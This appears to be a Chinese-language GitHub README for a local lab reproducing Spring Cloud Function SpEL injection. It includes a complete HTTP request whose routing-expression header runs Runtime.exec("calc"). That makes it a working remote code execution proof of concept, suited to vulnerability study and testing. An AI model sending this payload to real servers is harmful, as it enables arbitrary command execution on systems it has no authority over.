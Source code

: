 # Spring-Cloud-Function-SpEL
一个用于Spring Cloud Function SpEL表达式注入的测试环境\
版本 java11 运行 java -jar demo-0.0.1-SNAPSHOT.jar 启动\
\
搭建完成访问127.0.0.1:8080端口\
![image](https://user-images.githubusercontent.com/88339946/160252763-dcdab609-08a5-4d70-afb0-0f8870d64f82.png)
```
POST /xxx HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

xxx
```
![ed8de6718b7501e80a470a96293aa37](https://user-images.githubusercontent.com/88339946/160252782-8173cb68-e9bc-4337-86fd-36dc9feddce7.jpg)
